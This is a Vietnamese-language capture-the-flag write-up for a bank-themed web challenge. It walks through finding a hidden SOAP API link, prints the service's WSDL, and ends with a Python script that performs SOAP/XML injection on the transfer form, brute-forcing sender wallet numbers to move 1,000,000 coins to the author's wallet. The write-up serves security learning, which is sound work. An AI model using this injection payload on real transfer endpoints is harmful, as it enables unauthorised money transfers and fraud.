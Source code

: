 
URL:  http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/</br>
</br>
Đầu tiên ta cần tạo một tài khoảng và login vào</br>
Tại VIP : `"This section is available only to privileged pigs with money in pockets. Transfer to the piggy-bank 1 000 000 coins and become important."`</br>
![1](https://user-images.githubusercontent.com/23306492/43188979-b23d15d4-901f-11e8-9dac-2090b0566b3f.png)</br>
Trong khi ta chỉ có `110 `</br>
![2](https://user-images.githubusercontent.com/23306492/43189089-fc26109c-901f-11e8-880e-0d993ad51eaa.png)</br>
Tại tab `For Developers` ta thấy `<!-- Link to the API (http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/api/bankservice.wsdl.php) (Testing stage) -->`</br>
**bankservice.wsdl.php**</br>
```
<wsdl:definitions name="Bank" targetNamespace="urn:Bank">
<message name="BalanceRequest">
	<part name="wallet_num" type="xsd:decimal"/>
</message>
<message name="BalanceResponse">
	<part name="code" type="xsd:float"/>
	<part name="status" type="xsd:string"/>
</message>
<message name="internalTransferRequest">
	<part name="receiver_wallet_num" type="xsd:decimal"/>
	<part name="sender_wallet_num" type="xsd:decimal"/>
	<part name="amount" type="xsd:float"/>
	<part name="token" type="xsd:string"/>
</message>
<message name="internalTransferResponse">
	<part name="code" type="xsd:float"/>
	<part name="status" type="xsd:string"/>
</message>
<portType name="BankServicePort">
	<operation name="requestBalance">
		<input message="tns:BalanceRequest"/>
		<output message="tns:BalanceResponse"/>
	</operation><operation name="internalTransfer">
		<input message="tns:internalTransferRequest"/>
		<output message="tns:internalTransferResponse"/>
	</operation>
</portType>
<binding name="BankServiceBinding" type="tns:BankServicePort">
	<soap:binding style="rpc" transport="http://schemas.xmlsoap.org/soap/http"/>
	<operation name="requestBalance">
		<soap:operation soapAction="urn:requestBalanceAction"/>
		<input><soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/></input>
		<output><soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/></output>
	</operation>
	<operation name="internalTransfer">
		<soap:operation soapAction="urn:internalTransferAction"/>
		<input><soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/></input>
		<output><soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/></output>
	</operation>
</binding>
<wsdl:service name="BankService">
<wsdl:port name="BankServicePort" binding="tns:BankServiceBinding">
<soap:address location="http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/api/bankservice.php"/>
</wsdl:port>
</wsdl:service>
</wsdl:definitions>
```
Sử dụng Wsdler </br>
![6](https://user-images.githubusercontent.com/23306492/43189565-0bbb77e4-9021-11e8-8fdf-9e07d176ae35.png)</br>
Sử dụng SOAP INJECTION VULNERABILITY để tấn công [link](http://riseandhack.blogspot.com/2015/02/xml-injection-soap-injection-notes.html)
```
import requests
url1 = "http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/auth.php"
url2 = "http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/home/transfer.php"
s = requests.session()
s.get(url1,params={"login":"k4k4","password":"k4k4"})
for i in range(1000,10000):
	print i
	payload = {	"receiver":'1405</receiver_wallet_num><sender_wallet_num xsi:type="xsd:decimal">'+str(i)+'</sender_wallet_num><amount>1000000<!--',
				"amount":"-->"
		}
	r = s.post(url2,data=payload)
	msg = r.text
	if "Successful" in msg:
		print "ok"
		break
```
![8](https://user-images.githubusercontent.com/23306492/43189896-f0e7aef0-9021-11e8-9c4b-6c8e1a6331a3.png)</br>
![9](https://user-images.githubusercontent.com/23306492/43189915-fe30e32e-9021-11e8-9524-e2fb098652e9.png)</br>

